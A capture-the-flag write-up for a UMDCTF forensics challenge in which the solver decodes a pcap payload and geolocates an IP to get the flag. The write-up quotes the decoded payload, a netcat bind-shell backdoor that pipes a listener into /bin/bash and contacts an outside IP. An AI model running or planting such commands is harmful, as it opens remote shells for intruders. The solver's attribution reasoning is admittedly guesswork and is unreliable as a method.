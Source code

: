 - https://resources.infosecinstitute.com/memory-forensics-and-analysis-using-volatility/#gref

- https://www.andreafortuna.org/2019/08/22/how-to-generate-a-volatility-profile-for-a-linux-system/


---


## Nation State Musical
**Category:** Forensics

**Points:** 300

**Description:**
> **Author:** t0pc4r
>
> **Hint:** "Oh no! It looks like a nation state is trying to attack one
>        of UMDs routers! Using a pcap generated from the attack, try
>            to determine which nation state the attack is coming from.
>
>       Beware, you only have five guesses.
>
> The flag will be in the format UMDCTF-{Country}"
>
> **Note:** "Do not attempt to communicate with or contact any of
       the IP addresses mentioned in the challenge. The challenge
           can and should be solved statically."
>
> **Given:** Pcap file "attack.pcap"

### Writeup
Looking at the pcap file, we can see there are A LOT of TCP packets
from ONE source to ONE destination. I ran a whois on the source IP
address, which showed that the IP was from Ukraine, but that's too easy.

I looked at the pcap file a little more to realize that one of the TCP
packets had data associated to it. I did a quick hex to ascii and the
output was:

```
ÿþ';
rm -f backd00r
mkfifo backd00r
nc -lk 1337 0<backd00r | /bin/bash 1>backd00
echo '<5= :V@5<V=' | nc 37.46.96.0 1337
```

I can see that another IP addressed is being used, so I ran another whois
on this other IP. The IP was from Kazakhstan, so I tried the flag,
UMDCTF-{Kazakhstan} and it worked.

There is probably an explanation to why this IP address is the actual source
of the attacks, but I'm not too sure what it is.

### Flag
UMDCTF-{Kazakhstan}
